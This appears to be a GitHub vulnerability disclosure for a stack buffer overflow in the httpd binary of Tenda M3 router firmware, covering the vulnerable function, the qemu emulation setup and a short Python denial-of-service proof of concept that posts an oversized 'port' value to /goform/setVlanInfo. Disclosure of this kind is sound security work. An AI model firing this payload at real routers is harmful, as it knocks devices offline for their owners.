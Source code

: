 # Tenda M3 contains Stack buffer Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack buffer overflow. The vunlerability is in fucntion `fromSetLocalVlanInfo` 

![image-20220818232658932](readme.assets/image-20220818232658932.png)

In this function, is copies POST parameter `port` to stack buffer without checking its length, causing a stack buffer overflow vulnerability. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "action": "add", 
    "port": "a"*0x300
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setVlanInfo", data=data, cookies=cookies)
print(res.content)

```



![image-20220818232714693](readme.assets/image-20220818232714693.png)